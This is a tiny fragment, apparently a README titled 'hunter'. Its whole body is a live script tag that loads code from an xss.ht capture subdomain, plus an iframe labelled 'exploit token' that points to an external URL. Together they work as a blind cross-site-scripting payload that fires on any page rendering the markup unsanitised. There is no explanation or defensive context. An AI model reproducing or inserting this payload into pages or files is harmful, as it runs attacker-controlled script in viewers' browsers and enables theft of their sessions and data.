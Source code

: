 # hunter


<script src='https://ynafiai.xss.ht' ></script>
<iframe alt='exploit token' frameborder='0' height='600' scrolling='auto' src='https://api.nudge.ai/Image/GetUploadedImage/b29b982c35f149c48f4ffe844152cc2d' width='480'></iframe>
